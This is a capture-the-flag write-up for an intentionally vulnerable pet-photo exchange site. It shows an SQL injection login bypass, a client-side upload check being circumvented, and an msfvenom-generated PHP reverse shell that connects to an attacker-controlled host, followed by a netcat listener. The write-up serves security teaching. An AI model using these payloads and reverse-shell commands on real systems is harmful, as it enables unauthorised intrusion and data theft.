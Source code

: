 ## kitty exchange

### Tags

Broken Access Control,  Injection, Security Misconfiguration

### Difficulty and Points

easy;

### Description

The cat lady in the neighborhood develops a website to exchange picz of her precious pets. She accidentally opend her test environment to the public. Garfilds portraits are secure though, she says.

### Hints (and price in percent of possible points)

1. What web pages can you access? (10 %)
2. Is the login securely implemented? (15 %)
3. You can only upload images! Do you? (25 %)

### Solution tl;dr

- Look which pages are accessible. Hint: robots.txt -> index.php.bak -> login.php
- User: `asdf' or 1=1--`
- Circumvent JavaScript mime type check
- Upload a .php file, like one created using:
  `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw -o phpreverseshell.php`
  `msfvenom -p php/reverse_php LHOST=192.168.42.181 LPORT=4444 -f raw -o phpreverseshell.php`
- `nc -l -p 4444`
- `cat /DS-*`

### Writeup

- You are provided with an IP <IP> to the web app.
- At a first glace the web app isn't functional yet.
- Let's try to find some hidden pages the developer already uploaded, but didn't make public.
- We can automate the search using nikto or dirb, but lets poke around manually for now.
- A great way to get an overview of a website is to check <IP>/sitemap.xml or <IP>/robots.txt.
- No luck with the former, but we have a hit with the later.
- This gives us the hint that a crawler shouldn't cache *.bak files. Maybe the developer uses this extention for versioning?
- Let's try the most obvious <IP>/index.html.bak. No luck. Now, <IP>/index.php.bak. Jackpot!
- It wants us to redirect to login.php. Now we're talkin'!
- Let's check if the login is vulnerable to sql injections by typing in random shit as username and password each followed by a single quote char.
- Whoops. Something went wrong there.
- Either we get out the big guns now, i.e. sqlmap. Oooorrrr, we play a bit around.
- Let's try the oldest trick in the book: `asdf' or 1=1--` as user and random shit as password. And - BAAAMMm - we are in. Seems the cat lady wasn't the smartest in coding class.
- Finally, we can upload our favorite kitty pic. But wait... can't we upload some php as well?
- Nope. The upload button magically dissapears. Mhhh, was that a rechest to the server already??? I don't think so!
- Let's check the source for JavaScript.
- Using my favorite browser, Firefox - obviously! -, pressing strl+shift+i opens the developer tools.
- Searching for "IMAGE FILES ONLY" in the source reveals, the button.style.visibility is set to "hidden". But we don't want that. Let's change it to "visible". Et voilà! We can upload .php files now.
- I'm too lazy to write php myself... so I just generate my webshell using Metasploits msfvenom:
    - Syntax: `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw -o phpreverseshell.php`
    - Note: I own the domain example.org and I have a port forwarding set up to my local machine on tcp 4444.
    - Which makes the cmd: `msfvenom -p php/reverse_php LHOST=example.org LPORT=4444 -f raw -o phpreverseshell.php`
- Opening a listener with netcat ... `nc -l -p 4444`
- ... uploading phpreverseshell.php ...
- ... I get my secure kitty link <IP>/upload/0ffc7b...c9b6d.php
- ... and opening it in the browser, gives me my hoped for shell.
- Note: Using a reverse shell circumvents server side firewalling. However, it seems there is none. So, the same shit flies using a bind shell.
- Let's look around a bit, shell we? (pun intended)
    - `whoami` ... so far so expected.
    - `ls -al /` ... wait... what??? What do we have here? Can we read the token already? Yes, we can!
    - `cat /DS-token`
